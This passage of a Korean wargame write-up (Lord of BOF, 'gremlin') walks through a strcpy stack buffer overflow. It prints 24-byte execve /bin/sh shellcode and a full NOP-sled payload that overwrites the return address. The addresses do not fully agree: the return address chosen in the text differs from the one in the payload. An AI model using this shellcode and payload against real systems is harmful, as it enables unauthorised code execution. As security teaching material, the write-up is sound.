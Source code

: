 프로그램이 종료된 스택 상태를 살펴보면 "A"라는 문자열이 0xbffffcf0 언저리에서 부터 들어간 것을 확인 할 수 있다.

**우리가 buffer배열의 주소로 구한 0xbffffb88과는 확연히 다른 주소이다.**

때문에 payload과정에서 시간을 절약하기 위해서 core덤프를 확인하고 진행하는 것이 정신건강에 좋다.

이제 우리의 ret주소는 0xbffffcf0으로 잡고 buffer 앞부분에 NOP코드를 넣어 NOP 슬라이딩시켜 shellcode가 실행되게 하면 될 것 같다.



------



### 0x03. Exploit

지금까지 얻은 정보들을 종합하여 RET주소를 변경하여 공격해보자.

buffer의 크기는 256바이트이고, 그 뒤에 SFP가 4바이트 존재하고, RET주소가 있으므로 스택주소는 다음과 같다고 할 수 있다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827160200021.png" width="500px">



buffer부분에 shellcode를 올려놓고 ret주소에 buffer주소를 넣으면 함수가 종료되면서 ret주소를 참조하여 해당 주소를 실행할 때, shellcode가 실행되게 된다.



쉘을 실행시키는 shellcode는 다음과 같다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



buffer_addr : 0xbffffac8



#### Payload

```
./gremlin `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*(260-100-24)+"\xc8\xfa\xff\xbf"'`
```

 

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827162535728.png" width="800px">

-----

### 0x04. 정리

strcpy함수가 String을 복사할 때  복사하는 크기를 정하지 않아 생기는 BoF취약점을 이용하여 프로그램의 흐름을 조작할 수 있었다. strcpy함수처럼 크기 지정없이 값을 복사하는 메소드들은 BoF 취약점에 노출되어 있다.



-----
